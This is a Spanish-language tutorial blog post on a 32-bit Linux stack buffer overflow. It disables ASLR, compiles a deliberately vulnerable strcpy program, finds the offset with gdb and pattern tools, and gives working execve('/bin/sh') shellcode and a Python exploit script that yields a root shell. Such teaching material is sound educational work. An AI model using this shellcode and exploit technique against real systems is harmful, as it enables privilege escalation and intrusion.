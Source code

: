```yaml
---
title: "Stack Buffer Overflow Linux 32 Bit (Part I)"
layout: single
excerpt: "En este artículo enseñó a crear y usar un exploit de desbordamiento del buffer para ganar un Shell abusando de funciones inseguras como strcpy, getenv etc. También muestro como funciona el binario a bajo nivel, los registros ESP, EIP y como emplear herramientas como gdb o hexedit para editar binarios en hexadecimal."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - EIP
  - Buffer oveflow
  - ESP
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg">
</p>

El desbordamiento del búfer o *Buffer Overflow* en Inglés, sucede cuando el programador no hace la suficiente desinfección en el código de un programa. Esto permite sobrepasar el búfer definido y por ello apuntar a ciertos registros para inyectar `shellcode` y derivar a una ejecución de código arbitrario en el sistema.

En este artículo aprovecharemos la función `strcpy` considerada como insegura para sobrepasar un búfer definido y de este modo sobrescribir los registros *ESP*, *EIP* para ganar *RCE*. No tendremos ningún tipo de restricción como ASLR (aleatorización en las direcciones de memoria) o DEP (prevención de ejecución de datos).

Para desactivar ASLR es muy facil, enviamos un 0 como input a `/proc/sys/kernel/randomize_va_space` y listo.

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Para comenzar necesitamos un binario vulnerable a *BoF*, por eso he encontrado este script basico en C que hace uso de `strcpy`.

```c
#include <string.h>
#include <stdio.h>
void main(int argc, char *argv[]) {
        copier(argv[1]);
        printf("Done!\n");
}
int copier(char *str) {
        char buffer[100];
        strcpy(buffer, str);
}
```

Este script no tiene ninguna utilidad, lo que hace básicamente es copiar el primer argumento que le pasemos como *input* y guardarlo en un búfer e imprimir *Done* por pantalla, la vulnerabilidad está en el uso de `strcpy`.

Para la compilación este debe ser en 32 bits, por ello será necesario usar el parámetro `-m32` de `gcc`, de lo contrario os lo creará en 64 bits.

![https://imgur.com/fn2Pckf.png](https://imgur.com/fn2Pckf.png)
![https://imgur.com/pzcdTJT.png](https://imgur.com/pzcdTJT.png)

> Los parámetros utilizados en la compilación son para desactivar algunas restricciones.

Esto nos genera un binario ejecutable, entonces probamos a pasarle una A para verificar que funcione.

![https://imgur.com/UdKB266.png](https://imgur.com/UdKB266.png)

Bien, funciona, ahora vamos a usar `gdb` para monitorear el uso del programa a bajo nivel, le pasamos el parámetro `-q` para la lectura de símbolos y ejecutamos el comando `list` para ver el código.

![https://imgur.com/rRySz6h.png](https://imgur.com/rRySz6h.png)

Haremos un `breakpoint` en la línea 10, ya que la vulnerabilidad no sucede en la función `main`, usamos el comando `break 10`.

![https://imgur.com/P08ILaY.png](https://imgur.com/P08ILaY.png)

Le pasamos 4 bytes como argumento al programa con el comando `run`.

![https://imgur.com/bgUgHwh.png](https://imgur.com/bgUgHwh.png)

Una vez hecho, usamos el comando `info registers` para ver los registros.

![https://imgur.com/25SPQqD.png](https://imgur.com/25SPQqD.png)

Listamos el registro `ESP` con `x/40x $esp`. 

![image](https://user-images.githubusercontent.com/69093629/154841169-af286bb4-b75b-48e7-b64e-cc44f38bd475.jpg)

Como se puede apreciar se ha sobrescrito una direccion de memoria con las 4 As en ANSI.

Ahora bien, ¿que sucede si le pasamos al programa mas 100 As?, vamos a comprobarlo.

![https://imgur.com/Jig6VcD.png](https://imgur.com/Jig6VcD.png)

Se ha producido un desbordamiento del búfer y el binario ha crasheado.

Me he creado un pequeño script en Python que imprima por pantalla mas de 100 As y lo he exportando como BoF.

```python
#!/usr/bin/python3
print("A"*116)
```
![https://imgur.com/ql9LNNA.png](https://imgur.com/ql9LNNA.png)

Le pasamos las As y miramos el registro ESP.

![image (2)](https://user-images.githubusercontent.com/69093629/154843836-0299b369-0d73-4f69-9dbd-ed282d6a0113.jpg)

Como veis están todas las A que le hemos pasado al binario, esto ha sobrescrito hasta la dirección de retorno, vamos a modificar el `retturn address` con `hexedit`, ejecutamos `hexedit` + nombre del binario.

![https://imgur.com/yrbDTpc.png](https://imgur.com/yrbDTpc.png)

Y cambiamos los últimos valores.

![https://imgur.com/olJtCYE.png](https://imgur.com/olJtCYE.png)

Ahora volvemos a ver el registro ESP.

![image (3)](https://user-images.githubusercontent.com/69093629/154845769-4705cb24-ded4-4929-a108-cd7a7e1bfdf4.jpg)

La dirección de retorno ha cambiado, pero está en `little endian`, es decir al revés.

Ahora vamos a calcular el `offset`, es decir las A que tenemos que introducir antes de que el programa corrompa. Para ello hay una herramienta llamada `pattern_create` la cual te crea una cadena especial para luego computar el `offset` con `pattern_offset`.

Le pasé los bytes en los que corrompe el programa.

![https://imgur.com/6u3tOVD.png](https://imgur.com/6u3tOVD.png)

Una vez la cadena creada se la pasamos al programa como argumento.

![https://imgur.com/6szLUpb.png](https://imgur.com/6szLUpb.png) 

La dirección que reporta la copiamos y la pegamos en `pattern_offset`.

![https://imgur.com/Rgoo3Rw.png](https://imgur.com/Rgoo3Rw.png)

Ahí esta, el `offset` son 112 bytes. Ahora haremos uso de NOPS para rellenar los bytes faltantes antes del `shellcode` y llevar el flujo del programa sin problemas.

Necesitamos un `shellcode` para ganar acceso con un Shell, para ello usé el siguiente de 32 bytes.

```bash
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

Y me he creado un pequeño exploit en Python2 con el siguiente código.

```python
#!/usr/bin/python2

nops = '\x90' * 64
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (112 - 64 - 32)
eip = "\xb0\xd3\xff\xff"
print nops + shellcode + padding + eip
```

Lo que hace es generar 64 bytes de NOPS `x90` y guardarlos en la variable NOPS, después defino otra variable `shellcode` con el `shellcode`, valga la redundancia, y en la variable `padding` hago los cálculos restando los 112 bytes del `offset`, menos los 64 de los NOPS y los 32 del `shellcode` y creo la cadena de A's del número restante. En la dirección EIP introducimos una del trineo de NOPS en `little endian` para evitar errores, ya que esta estará apuntando a la siguiente instrucción a ejecutar. Y finalmente quedaría algo así.

`\x90\x90.. → \x31\xc0\x89.. → AAAA.. → \xb0\xd3\xff\xff`

Si miramos el resultado en hexadecimal con `hexedit` veremos algo así.

![https://imgur.com/0YAugr1.png](https://imgur.com/0YAugr1.png)

Exporto el exploit como `exp`.

![https://imgur.com/cPzxbeO.png](https://imgur.com/cPzxbeO.png)

Y le hacemos un `cat` al archivo exportado.

![https://imgur.com/KaYXfl8.png](https://imgur.com/KaYXfl8.png)

Y hemos ganado un Shell como `root` en el sistema.


